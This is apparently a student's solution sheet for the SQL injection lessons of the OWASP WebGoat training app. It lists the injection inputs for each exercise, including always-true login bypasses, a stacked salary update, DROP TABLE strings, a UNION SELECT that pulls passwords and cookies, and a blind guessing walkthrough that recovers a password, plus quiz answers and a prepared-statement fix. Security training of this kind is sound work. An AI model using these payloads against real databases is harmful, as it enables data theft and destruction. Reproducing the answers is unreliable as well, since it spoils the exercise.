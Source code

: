 # Excercise A1 Solutions

I solved these excercises myself, or used a guide. These solutions work and are the official solutions, they can also be found here: https://github.com/WebGoat/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)#a1-injection

### Intro

2: __SQL query:__ SELECT department FROM employees WHERE first_name='Bob' 

3: __SQL query:__ UPDATE employees SET department='Sales' WHERE first_name='Tobi'

4: __SQL query:__ ALTER TABLE employees ADD phone varchar(20) 

5: __SQL query:__ GRANT ALTER TABLE TO UnauthorizedUser

9: __SELECT * FROM users_data FIRST_NAME = 'John' and Last_NAME = '__ ' + or + '1'='1

10: __Login_count:__ 0    __User_Id:__ 0  __OR__  1=1

11: __Employee Name:__ A    __Authentication TAN:__ ' __OR__ '1' = '1

12: __Employee Name:__ A    __Authentication TAN:__ '; UPDATE employees SET salary=99999 WHERE first_name='John

13: __Action contains:__ %'; DROP TABLE access_log;--


### Advanced

3: __Name:__ '; SELECT * FROM user_system_data;-- __OR__ ' UNION SELECT 1, user_name, password, cookie, 'A', 'B', 1 from user_system_data;--

5: Login page doesn't provide any useful outputs, but the Register page allows to check if a username already exists. Trying to register with the username __tom' AND '1'='1__ we find that the username is taken. We guess that the table we are seeking is named "password", and registering with the username __tom' AND substring(password,1,1)='t__ we find that the username is already taken. That means that Tom's password starts with the letter "t". By guessing forward one letter at a time, we find that Tom's password is __thisisasecretfortomonly__. 

6: 
__1.__ Solution 4: A statement has got values instead of a prepared statement

__2.__ Solution 3: ?

__3.__ Solution 2: Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.

__4.__ Solution 3: Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data

__5.__ Solution 4: The database registers 'Robert' ); DROP TABLE Students;--'.


### Mitigation

5. 
![1]

6.
> try {  
     Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);  
     PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");  
     ps.setString(1, "Admin");  
     ps.executeUpdate();  
} catch (Exception e) {  
     System.out.println("Oops. Something went wrong!");  
}

10. I haven't solved it myself, good luck! You can find all the correct answers to WebGoat excercises also here: https://github.com/WebGoat/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)

[1]: https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/sqli-mitigation-5.png

